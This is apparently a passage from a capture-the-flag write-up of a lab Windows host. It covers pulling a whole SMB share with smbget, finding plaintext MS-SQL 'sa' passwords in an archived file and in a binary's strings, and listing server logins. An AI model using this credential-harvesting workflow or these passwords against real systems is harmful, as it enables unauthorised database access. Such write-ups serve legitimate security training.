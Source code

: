 ```
smbget -U Finance -R -e -w WORKGROUP\ACCT smb://10.10.10.59
```

Leaving that to run while pizza was consumed produced a nice collection of files and directories to go through. While things were downloading the following file popped out:

```
zz_Archived/SQL/conn-info.txt
```

That had some credentials in it for the `sa` user account on the MS-SQL connection. The `sa` account is the equivalent of `root` in an MSSQL database, although we did find this in "Archived" so it might not work, and the connection may not even allow the `sa` account to log in remotely in which case we just save it til we *finally* get a shell.

```
db: sa
pass: YE%TJC%&HYbe5Nw
```

Trying that password using a tool I found called `mssql-cli` didn't seem to work so we had another look around the share and noticed that we hadn't managed to download everything. There was a folder in `zz_Migration` called `Binaries`. In that folder was a Windows executable file called `tester.exe`, obviously we can't run it in Kali, but we can run `strings` on it.

Checking the output of `strings` we find the following little gem:

```
DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;
```

That looks like winner, let's give it a try.

For some reason the databsee name doesn't seem to be valid, but it works if we don't bother specifying the database so whatever. We can either use our

`SELECT name FROM master..syslogins`

```
+-----------------------------------------+
| name                                    |
|-----------------------------------------|
| sa                                      |
| ##MS_SQLResourceSigningCertificate##    |
| ##MS_SQLReplicationSigningCertificate## |
| ##MS_SQLAuthenticatorCertificate##      |
| ##MS_PolicySigningCertificate##         |
| ##MS_SmoExtendedSigningCertificate##    |
| ##MS_PolicyEventProcessingLogin##       |
| ##MS_PolicyTsqlExecutionLogin##         |
| ##MS_AgentSigningCertificate##          |
| WIN-A1D9PN09GFO\Sarah                   |
| NT SERVICE\SQLWriter                    |
| NT SERVICE\Winmgmt                      |
| NT SERVICE\MSSQLSERVER                  |
| NT AUTHORITY\SYSTEM                     |
| NT SERVICE\SQLSERVERAGENT               |
| NT SERVICE\SQLTELEMETRY                 |
+-----------------------------------------+
```
